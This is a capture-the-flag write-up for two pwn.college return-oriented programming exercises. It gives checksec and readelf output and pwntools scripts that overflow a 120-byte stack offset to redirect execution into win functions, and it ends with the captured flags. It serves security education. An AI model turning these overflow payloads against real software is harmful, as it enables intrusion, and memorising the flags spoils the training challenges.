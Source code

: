 # ROP WriteUP

## Setup

first we already have the all tools, like vscode, pwntools and others.

the guide to ROP is actually three things

1. Check security
2. Find the return address
3. Craft payload

## Babyrop 1.0

for this problem first i check the security using `checksec` from `pwn` modules

```txt
[*] '/challenge/babyrop_level1.0'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

because the NX enabled we can't craft a shell code and if we look the PIE is disabled so it should be pretty easy. the challenges is available in the /challenge/babyrop_level1. just run ./babyrop_level1.0 and it gives me

```txt
###
### Welcome to ./babyrop_level1.0!
###

This challenge reads in some bytes, overflows its stack, and allows you to perform a ROP attack. Through this series of
challenges, you will become painfully familiar with the concept of Return Oriented Programming!

In this challenge, there is a win() function.
win() will open the flag and send its data to stdout; it is at 0x4024f9.
In order to get the flag, you will need to call this function.

You can call a function by directly overflowing into the saved return address,
which is stored at 0x7ffc526ad908, 120 bytes after the start of your input buffer.
That means that you will need to input at least 128 bytes (96 to fill the buffer,
24 to fill other stuff stored between the buffer and the return address,
and 8 that will overwrite the return address).

Received 1 bytes! This is potentially -15 gadgets.
Let's take a look at your chain! Note that we have no way to verify that the gadgets are executable
from within this challenge. You will have to do that by yourself.

+--- Printing 4294967282 gadgets of ROP chain at 0x7ffc526ad908.

Leaving!
### Goodbye!
```

after i read the text it just basic overwrite return address. and it even gives me the offset. so i craft the payload

```py
from pwn import *

binary_name = "/challenge/babyrop_level1.0"

p = process(binary_name)

payload = cyclic(120)
payload += p64(0x00000000004024f9)

print(payload)
p.recvuntil(b"address).")
p.sendline(payload)
p.interactive()
```

becuase the 128bytes is including return address so we must subtract it by 8 bytes so the offset is actually 120bytes and we got the flag

```txt
hacker@babyrop_level1:~/babyrop1.0$ python payload.py
[+] Starting local process '/challenge/babyrop_level1.0': pid 273
b'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaab\xf9$@\x00\x00\x00\x00\x00'
[*] Switching to interactive mode

[*] Process '/challenge/babyrop_level1.0' stopped with exit code -11 (SIGSEGV) (pid 273)
Received 129 bytes! This is potentially 1 gadgets.
Let's take a look at your chain! Note that we have no way to verify that the gadgets are executable
from within this challenge. You will have to do that by yourself.

+--- Printing 2 gadgets of ROP chain at 0x7ffcdca74d28.
| 0x00000000004024f9: endbr64  ; push rbp ; mov rbp, rsp ; lea rdi, [rip + 0xc90] ; call 0x401150 ;
| 0x000000000000000a: (UNMAPPED MEMORY)

Leaving!
You win! Here is your flag:
pwn.college{46d2mczXGy6QmtzEHi5g5RNHKdq.QXxQzMsATO1QzW}
```

## Babyrop 2.0

babyrop2.0 is actually the same as 1.0, first i check the security

```txt
hacker@babyrop_level2:/challenge$checksec babyrop_level2.0
[*] '/challenge/babyrop_level2.0'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
hacker@babyrop_level2:/challenge$
```

The security is the same as the babyrop1.0

then i simply run the program to check what the problem want us to do

```txt
###
### Welcome to ./babyrop_level2.0!
###

This challenge reads in some bytes, overflows its stack, and allows you to perform a ROP attack. Through this series of
challenges, you will become painfully familiar with the concept of Return Oriented Programming!

In this challenge, there are 2 stages of win functions. The functions are labeled `win_stage_1` through `win_stage_2`.
In order to get the flag, you will need to call all of these stages in order.

You can call a function by directly overflowing into the saved return address,
which is stored at 0x7ffd0da28798, 120 bytes after the start of your input buffer.
That means that you will need to input at least 128 bytes (98 to fill the buffer,
22 to fill other stuff stored between the buffer and the return address,
and 8 that will overwrite the return address).

Received 1 bytes! This is potentially -15 gadgets.
Let's take a look at your chain! Note that we have no way to verify that the gadgets are executable
from within this challenge. You will have to do that by yourself.

+--- Printing 4294967282 gadgets of ROP chain at 0x7ffd0da28798.

Leaving!
### Goodbye!
```

the problem statement is very clear and it even gives the debug so yeah :D. it states that you need to run two function win_stage_1, win_stage_2 and then it will give the output. so first i tried to find the address of the function using `readelf`

```txt
hacker@babyrop_level2:/challenge$ readelf -s babyrop_level2.0 | grep win
    65: 0000000000402616   173 FUNC    GLOBAL DEFAULT   15 win_stage_1
    90: 00000000004026c3   177 FUNC    GLOBAL DEFAULT   15 win_stage_2
```

after i got the address i craft the payload same as the 1.0 but with two function

```py
from pwn import *

binary_name = "/challenge/babyrop_level2.0"
win_1 = 0x0000000000402616
win_2 = 0x00000000004026c3

p = process(binary_name)

payload = cyclic(120)
payload += p64(0x0000000000402616)
payload += p64(0x00000000004026c3)

print(payload)
p.recvuntil(b"address).")
p.sendline(payload)
p.interactive()
```

and then we got the payload

```txt
hacker@babyrop_level2:~/babyrop2.0$ python payload.py
[+] Starting local process '/challenge/babyrop_level2.0': pid 690
b'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaab\x16&@\x00\x00\x00\x00\x00\xc3&@\x00\x00\x00\x00\x00'
[*] Switching to interactive mode

[*] Process '/challenge/babyrop_level2.0' stopped with exit code -11 (SIGSEGV) (pid 690)
Received 137 bytes! This is potentially 2 gadgets.
Let's take a look at your chain! Note that we have no way to verify that the gadgets are executable
from within this challenge. You will have to do that by yourself.

+--- Printing 3 gadgets of ROP chain at 0x7ffc57592328.
| 0x0000000000402616: endbr64  ; push rbp ; mov rbp, rsp ; sub rsp, 0x120 ; mov dword ptr [rbp - 0x114], edi ; mov esi, 0 ; lea rdi, [rip + 0xb61] ; mov eax, 0 ; call 0x401210 ;
| 0x00000000004026c3: endbr64  ; push rbp ; mov rbp, rsp ; sub rsp, 0x120 ; mov dword ptr [rbp - 0x114], edi ; mov esi, 0 ; lea rdi, [rip + 0xab4] ; mov eax, 0 ; call 0x401210 ;
| 0x00007ffc5759240a: add byte ptr [rax], al ; add byte ptr [rax], al ; add byte ptr [rax + 0x24], al ; pop rcx ; push rdi ; cld  ; jg 0x7ffc57592417 ; add byte ptr [rax], al ; add byte ptr [rax], al ; add byte ptr [rax], al ; add byte ptr [rax], al ; add byte ptr [rax], al ; add byte ptr [rax], al ; add byte ptr [rax], al ; add byte ptr [rax], al ; add byte ptr [rsi + 0x12], bl ; add byte ptr [rax], al ; add byte ptr [rax], al ; add byte ptr [rax], bh ; and al, 0x59 ; push rdi ; cld  ; jg 0x7ffc57592437 ; add byte ptr [rax + rax], bl ; add byte ptr [rax], al ; add byte ptr [rax], al ; add byte ptr [rax], al ; add dword ptr [rax], eax ; add byte ptr [rax], al ; add byte ptr [rax], al ; add byte ptr [rax], al ;

Leaving!
pwn.college{YM0_FN0csMWwjODL95N7Qk6gDHV.QXzQzMsATO1QzW}
```

## Made by gawrgare
